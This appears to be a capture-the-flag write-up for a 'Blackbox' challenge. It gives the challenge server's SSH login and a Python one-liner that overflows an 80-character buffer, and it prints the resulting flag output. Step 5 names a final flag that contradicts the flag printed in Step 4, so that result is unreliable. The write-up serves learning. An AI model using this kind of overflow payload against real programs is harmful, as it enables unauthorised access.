




## Blackbox
The main idea of finding the flag is String Overflow.

#### Step-1:
After I SSH'ed into `ssh blackbox@104.131.79.111 -p 1001` with password as `guest` (given), I got this:



#### Step-2:
So, I tried to run `blackbox` file.



#### Step-3:
Now it was time to go wild. So, I gave very big inputs to see the threshold of String Overflow.



#### Step-4:
So, lets just print to exceed 80 characters because at 81st character we find the string overflow here.
Executing this one liner, gives us flag.

```py
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```
Output:

```bash
What is 1 + 1 = CORRECT! You get flag: 
flag{0n3_4lus_1_1s_Tw0_dumm13!!}

[2]+  Stopped                 python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```



#### Step-5:
Finally, the flag becomes: 
`the_flag_is{A_sP3c7r0grAm?!}`
